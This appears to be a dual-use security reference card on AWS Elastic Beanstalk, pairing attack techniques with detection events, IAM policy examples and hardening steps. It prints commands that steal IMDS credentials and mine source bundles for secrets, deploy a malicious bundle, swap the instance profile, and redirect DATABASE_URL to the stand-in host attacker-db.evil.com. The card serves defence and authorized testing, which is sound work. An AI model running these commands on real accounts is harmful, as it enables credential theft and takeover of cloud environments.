

#  AWS Elastic Beanstalk Security



> **Category**: COMPUTE

AWS Elastic Beanstalk is a PaaS that orchestrates EC2, Auto Scaling, ELB, S3, CloudWatch, and IAM to deploy applications. It creates a predictable S3 bucket (`elasticbeanstalk-<region>-<account-id>`) containing application source bundles, exposes environment variables in plaintext through its API, and runs EC2 instances with IMDS -- making it a compound attack surface.


## Quick Stats

| Risk Level | Scope | IMDS Exposure | IAM Roles |
| --- | --- | --- | --- |
| **HIGH** | **Regional** | **EC2 Instances** | **Service + Instance Profile** |

## 📋 Service Overview

### Application Deployment and S3 Storage

Elastic Beanstalk stores every application version as a ZIP/WAR source bundle in an S3 bucket named `elasticbeanstalk-<region>-<account-id>`. Anyone with `s3:GetObject` on that bucket can download the full application source code, which frequently contains hardcoded secrets, database credentials, and API keys.

> Attack note: The S3 bucket name is deterministic -- knowing the region and account ID is enough to construct it. Source bundles often contain `.env` files, configuration files with database passwords, and API keys.

### Environment Configuration and Secrets Exposure

Environment properties set via the console or CLI are stored as option settings in the `aws:elasticbeanstalk:application:environment` namespace. These values are returned in plaintext by the `DescribeConfigurationSettings` API action. Any principal with `elasticbeanstalk:DescribeConfigurationSettings` permission can read every environment variable, including secrets stored there.

> Attack note: Environment variables are not encrypted at rest in Elastic Beanstalk. They are visible in plaintext in the AWS Console and in API responses. Use AWS Secrets Manager references instead of raw secrets.

### IAM Roles: Service Role and Instance Profile

Elastic Beanstalk uses two IAM roles: a **service role** (`aws-elasticbeanstalk-service-role`) that Elastic Beanstalk assumes to manage AWS resources, and an **instance profile** (`aws-elasticbeanstalk-ec2-role`) attached to EC2 instances. The instance profile typically has the managed policies `AWSElasticBeanstalkWebTier`, `AWSElasticBeanstalkWorkerTier`, and `AWSElasticBeanstalkMulticontainerDocker` attached.

> Attack note: The `AWSElasticBeanstalkWebTier` policy grants `s3:Get*` and `s3:List*` on buckets starting with `elasticbeanstalk-*`, plus `s3:PutObject`. Compromising an instance gives access to all source bundles in the account.

## Security Risk Assessment

`████████░░` **8.0/10** (HIGH)

Elastic Beanstalk combines multiple attack surfaces: deterministic S3 bucket naming exposes source code, plaintext environment variables leak secrets through the API, EC2 instances with IMDS provide credential theft opportunities, and `.ebextensions`/`.platform` hooks allow code execution as root during deployments.

## ⚔️ Attack Vectors

### Source Code and Secrets Theft

- Download source bundles from predictable S3 bucket
- Extract environment variables via DescribeConfigurationSettings API
- Access `.env` files and config files from source bundles
- Read application secrets from S3-stored deployment artifacts
- Enumerate application versions to find older bundles with leaked secrets

### Instance and Deployment Compromise

- SSRF on deployed application to reach IMDS (169.254.169.254)
- Inject malicious code via `.ebextensions` commands in source bundle
- Execute arbitrary scripts via `.platform/hooks/` (runs as root)
- Abuse `container_commands` in `.ebextensions` for pre-deployment RCE
- Modify environment to attach an over-privileged instance profile

## ⚠️ Misconfigurations

### Secrets and Access Exposure

- Hardcoded secrets in environment properties (plaintext in API responses)
- Database credentials stored in `.ebextensions` option_settings
- S3 source bundle bucket with overly permissive access policy
- Application source bundles containing `.env` files with secrets
- Elastic Beanstalk S3 bucket using default SSE-S3 instead of SSE-KMS with customer-managed key

### Infrastructure Security

- IMDSv1 enabled on Elastic Beanstalk EC2 instances (default on AL2 and earlier; AL2023 defaults to IMDSv2-only)
- Over-privileged instance profile with broad S3 or IAM permissions
- Security groups allowing 0.0.0.0/0 inbound on application ports
- Managed platform updates disabled (unpatched OS and runtime)
- VPC flow logs not enabled on Elastic Beanstalk VPC/subnets

## 🔍 Enumeration

**List All Applications**
```bash
aws elasticbeanstalk describe-applications
```

**List All Environments**
```bash
aws elasticbeanstalk describe-environments
```

**Extract Environment Configuration (includes environment variables in plaintext)**
```bash
aws elasticbeanstalk describe-configuration-settings \
  --application-name APP_NAME \
  --environment-name ENV_NAME
```

**List Application Versions (reveals S3 source bundle locations)**
```bash
aws elasticbeanstalk describe-application-versions \
  --application-name APP_NAME
```

**Download Source Bundle from S3**
```bash
aws s3 cp s3://elasticbeanstalk-REGION-ACCOUNT_ID/APP_NAME/SOURCE_BUNDLE.zip .
```

**Describe Environment Resources (EC2 instances, ASG, ELB, SGs)**
```bash
aws elasticbeanstalk describe-environment-resources \
  --environment-name ENV_NAME
```

**Check Environment Health**
```bash
aws elasticbeanstalk describe-environment-health \
  --environment-name ENV_NAME \
  --attribute-names All
```

**Describe Individual Instance Health**
```bash
aws elasticbeanstalk describe-instances-health \
  --environment-name ENV_NAME
```

**List Available Solution Stacks (platform versions)**
```bash
aws elasticbeanstalk list-available-solution-stacks
```

**Retrieve Environment Logs**
```bash
aws elasticbeanstalk request-environment-info \
  --environment-name ENV_NAME \
  --info-type tail
# Wait, then retrieve:
aws elasticbeanstalk retrieve-environment-info \
  --environment-name ENV_NAME \
  --info-type tail
```

**List Tags on an Environment**
```bash
aws elasticbeanstalk list-tags-for-resource \
  --resource-arn arn:aws:elasticbeanstalk:REGION:ACCOUNT_ID:environment/APP_NAME/ENV_NAME
```

## 📈 Privilege Escalation

### Via Source Bundle Injection

An attacker with `elasticbeanstalk:CreateApplicationVersion` and `elasticbeanstalk:UpdateEnvironment` can upload a malicious source bundle containing `.ebextensions` config files or `.platform/hooks/` scripts. These execute as root on deployment:

- `.ebextensions/*.config` files support `commands` and `container_commands` keys that run shell commands as root
- `.platform/hooks/predeploy/` and `.platform/hooks/postdeploy/` scripts run as root during deployment
- An attacker can use these to install a reverse shell, exfiltrate credentials, or modify the instance profile

### Via Environment Variable Manipulation

An attacker with `elasticbeanstalk:UpdateEnvironment` can modify environment properties to inject malicious values (e.g., change a `DATABASE_URL` to point to an attacker-controlled server, or inject a reverse shell command into a variable consumed by the application).

### Via Instance Profile Swap

An attacker with `elasticbeanstalk:UpdateEnvironment` and `iam:PassRole` can change the instance profile to a more privileged role, then access those elevated credentials from the EC2 instance via IMDS.

## 🔑 Credential Theft

### From IMDS (on compromised instance)

```bash
# Get instance profile role name
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
# Retrieve temporary credentials
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME
```

### From Environment Variables

```bash
# From outside (with EB read permissions)
aws elasticbeanstalk describe-configuration-settings \
  --application-name APP_NAME \
  --environment-name ENV_NAME \
  --query 'ConfigurationSettings[0].OptionSettings[?Namespace==`aws:elasticbeanstalk:application:environment`]'
```

### From Source Bundles

```bash
# Download and extract source bundle, then search for secrets
aws s3 cp s3://elasticbeanstalk-REGION-ACCOUNT_ID/path/to/bundle.zip /tmp/
unzip /tmp/bundle.zip -d /tmp/source
grep -ri "password\|secret\|key\|token" /tmp/source/
```

> **Key insight:** Elastic Beanstalk exposes secrets through three distinct channels: IMDS on instances, environment variables via the API, and source bundles in S3. All three must be secured independently.

## 🛡️ Detection

### CloudTrail Events

- CreateApplication -- new application created
- CreateEnvironment -- new environment launched
- UpdateEnvironment -- environment configuration changed
- CreateApplicationVersion -- new source bundle uploaded
- DescribeConfigurationSettings -- environment variables read
- UpdateConfigurationTemplate -- configuration template modified
- RebuildEnvironment -- environment rebuilt
- SwapEnvironmentCNAMEs -- DNS swap between environments

### Indicators of Compromise

- DescribeConfigurationSettings calls from unusual principals or IPs
- Multiple DescribeApplicationVersions followed by S3 GetObject on source bundles
- UpdateEnvironment calls changing instance profile or security groups
- CreateApplicationVersion with source bundle from unexpected S3 location
- S3 GetObject requests on `elasticbeanstalk-*` buckets from unknown IPs

## 💻 Exploitation Commands

**Extract All Environment Variables**
```bash
aws elasticbeanstalk describe-configuration-settings \
  --application-name APP_NAME \
  --environment-name ENV_NAME \
  --query 'ConfigurationSettings[0].OptionSettings[?Namespace==`aws:elasticbeanstalk:application:environment`].[OptionName,Value]' \
  --output table
```

**Deploy Malicious Source Bundle**
```bash
# Upload malicious bundle to S3
aws s3 cp malicious-app.zip s3://elasticbeanstalk-REGION-ACCOUNT_ID/deploy.zip
# Create new application version pointing to it
aws elasticbeanstalk create-application-version \
  --application-name APP_NAME \
  --version-label malicious-v1 \
  --source-bundle S3Bucket=elasticbeanstalk-REGION-ACCOUNT_ID,S3Key=deploy.zip
# Deploy it
aws elasticbeanstalk update-environment \
  --environment-name ENV_NAME \
  --version-label malicious-v1
```

**Swap Instance Profile to Escalate Privileges**
```bash
aws elasticbeanstalk update-environment \
  --environment-name ENV_NAME \
  --option-settings \
    Namespace=aws:autoscaling:launchconfiguration,OptionName=IamInstanceProfile,Value=PRIVILEGED_INSTANCE_PROFILE
```

**Inject Environment Variable**
```bash
aws elasticbeanstalk update-environment \
  --environment-name ENV_NAME \
  --option-settings \
    Namespace=aws:elasticbeanstalk:application:environment,OptionName=DATABASE_URL,Value=attacker-db.evil.com
```

**Retrieve and Download Logs**
```bash
aws elasticbeanstalk request-environment-info \
  --environment-name ENV_NAME --info-type bundle
# Wait for log retrieval, then:
aws elasticbeanstalk retrieve-environment-info \
  --environment-name ENV_NAME --info-type bundle
```

## 📜 Policy Examples

### Dangerous -- Full Elastic Beanstalk Access

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": "elasticbeanstalk:*",
    "Resource": "*"
  }]
}
```

*Allows full control over all Elastic Beanstalk resources -- can read secrets, deploy malicious code, and change instance profiles*

### Dangerous -- Environment Variable Read Access

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": "elasticbeanstalk:DescribeConfigurationSettings",
    "Resource": "*"
  }]
}
```

*Allows reading all environment variables (including secrets stored in plaintext) from any environment*

### Secure -- Read-Only with No Configuration Access

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": [
        "elasticbeanstalk:DescribeApplications",
        "elasticbeanstalk:DescribeEnvironments",
        "elasticbeanstalk:DescribeEvents",
        "elasticbeanstalk:DescribeEnvironmentHealth",
        "elasticbeanstalk:DescribeInstancesHealth",
        "elasticbeanstalk:ListTagsForResource"
      ],
      "Resource": "*"
    },
    {
      "Effect": "Deny",
      "Action": [
        "elasticbeanstalk:DescribeConfigurationSettings",
        "elasticbeanstalk:DescribeConfigurationOptions"
      ],
      "Resource": "*"
    }
  ]
}
```

*Allows environment monitoring without exposing configuration secrets*

### Secure -- Scoped Deployment Access

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": [
      "elasticbeanstalk:CreateApplicationVersion",
      "elasticbeanstalk:UpdateEnvironment",
      "elasticbeanstalk:DescribeEnvironments",
      "elasticbeanstalk:DescribeEvents"
    ],
    "Resource": [
      "arn:aws:elasticbeanstalk:REGION:ACCOUNT_ID:application/APP_NAME",
      "arn:aws:elasticbeanstalk:REGION:ACCOUNT_ID:environment/APP_NAME/ENV_NAME",
      "arn:aws:elasticbeanstalk:REGION:ACCOUNT_ID:applicationversion/APP_NAME/*"
    ]
  }]
}
```

*Scoped to a specific application and environment -- limits blast radius*

## 🛡️ Defense Recommendations

### Use Secrets Manager Instead of Environment Properties

Never store raw secrets in Elastic Beanstalk environment properties. Use the `aws:elasticbeanstalk:application:environmentsecrets` namespace to reference AWS Secrets Manager secrets or SSM Parameter Store SecureString parameters.

```bash
aws elasticbeanstalk update-environment \
  --environment-name ENV_NAME \
  --option-settings \
    Namespace=aws:elasticbeanstalk:application:environmentsecrets,OptionName=DB_PASSWORD,Value=arn:aws:secretsmanager:REGION:ACCOUNT_ID:secret:my-db-password
```

### Enforce IMDSv2 on All Instances

Configure the Elastic Beanstalk environment to require IMDSv2 on all EC2 instances, blocking SSRF-based credential theft.

```bash
aws elasticbeanstalk update-environment \
  --environment-name ENV_NAME \
  --option-settings \
    Namespace=aws:autoscaling:launchconfiguration,OptionName=DisableIMDSv1,Value=true
```

### Enable S3 Bucket Encryption and Restrict Access

Enable default encryption on the Elastic Beanstalk S3 bucket and restrict access to only the service role and deployment principals.

```bash
aws s3api put-bucket-encryption \
  --bucket elasticbeanstalk-REGION-ACCOUNT_ID \
  --server-side-encryption-configuration \
    '{"Rules":[{"ApplyServerSideEncryptionByDefault":{"SSEAlgorithm":"aws:kms"}}]}'
```

### Use Least-Privilege Instance Profiles

Do not attach the default managed policies blindly. Create a custom instance profile with only the permissions your application requires. Remove `AWSElasticBeanstalkWorkerTier` and `AWSElasticBeanstalkMulticontainerDocker` if you are running a standard web server environment.

### Enable Managed Platform Updates

Keep the OS, runtime, and web server patched automatically by enabling managed platform updates.

```bash
aws elasticbeanstalk update-environment \
  --environment-name ENV_NAME \
  --option-settings \
    Namespace=aws:elasticbeanstalk:managedactions,OptionName=ManagedActionsEnabled,Value=true \
    Namespace=aws:elasticbeanstalk:managedactions,OptionName=PreferredStartTime,Value="Sun:02:00" \
    Namespace=aws:elasticbeanstalk:managedactions:platformupdate,OptionName=UpdateLevel,Value=minor
```

### Restrict DescribeConfigurationSettings Access

Explicitly deny `elasticbeanstalk:DescribeConfigurationSettings` for all principals except deployment pipelines and authorized operators. This API action exposes all environment variables in plaintext.

---

*AWS Elastic Beanstalk Security Card*

*Always obtain proper authorization before testing*
